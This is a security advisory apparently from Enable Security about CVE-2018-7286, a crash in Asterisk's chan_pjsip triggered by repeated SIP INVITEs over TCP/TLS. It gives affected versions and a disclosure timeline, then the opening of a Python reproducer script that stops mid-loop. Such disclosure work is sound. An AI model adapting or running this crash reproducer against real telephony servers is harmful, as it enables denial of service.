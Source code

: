 # Crash occurs when sending a repeated number of INVITE messages over TCP or TLS transport

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip` installed with `--with-pjproject-bundled`
- References: AST-2018-005, CVE-2018-7286
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-04-asterisk-pjsip-tcp-segfault>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-005.html>
- Tested vulnerable versions: 15.2.0, 15.1.0, 15.0.0, 13.19.0, 13.11.2, 14.7.5
- Timeline:
    - Issue reported to vendor: 2018-01-24
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22

## Description

A crash occurs when a number of INVITE messages are sent over TCP or TLS and
then the connection is suddenly closed. This issue leads to a segmentation fault. 

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when
`chan_pjsip` is in use.

## How to reproduce the issue

The following script was used to reproduce the issue on a TLS connection:

```python
import md5
import re
import socket
import ssl
import uuid
from time import sleep

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5061
USERNAME = "3000"
PASSWORD = "3000"
INVITE_USERNAME = "3000"

errno = 0
lasterrno = 0
while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock = ssl.wrap_socket(sock,
                               ssl_version=ssl.PROTOCOL_TLSv1,
                               )

        sock.connect((SERVER_IP, SERVER_PORT))
        sock.settimeout(0.5)
        errno = 0
        callid = str(uuid.uuid4())
        for ix in range(10):
            sdpbody = ""
```